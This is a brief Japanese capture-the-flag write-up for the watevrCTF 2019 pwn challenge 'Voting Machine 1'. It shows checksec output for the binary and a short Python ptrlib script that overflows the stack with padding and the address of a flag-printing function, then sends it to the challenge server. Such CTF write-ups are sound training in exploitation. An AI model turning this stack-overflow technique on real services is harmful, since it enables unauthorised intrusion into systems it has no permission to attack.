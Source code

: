 # [pwn 33pts] Voting Machine 1 - watevrCTF 2019
64ビットバイナリで、DEP以外無効です。
```
$ checksec -f kamikaze
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   74 Symbols     No       0               4       kamikaze
```
Stack Overflowがあり、フラグを表示する関数があるので呼びます。
```python
from ptrlib import *

elf = ELF("./kamikaze")
#sock = Process("./kamikaze")
sock = Socket("13.48.67.196", 50000)

payload = b'A' * 10
payload += p64(elf.symbol('super_secret_function'))
sock.sendlineafter("Vote: ", payload)

sock.interactive()
```

# 感想
簡単ですね。
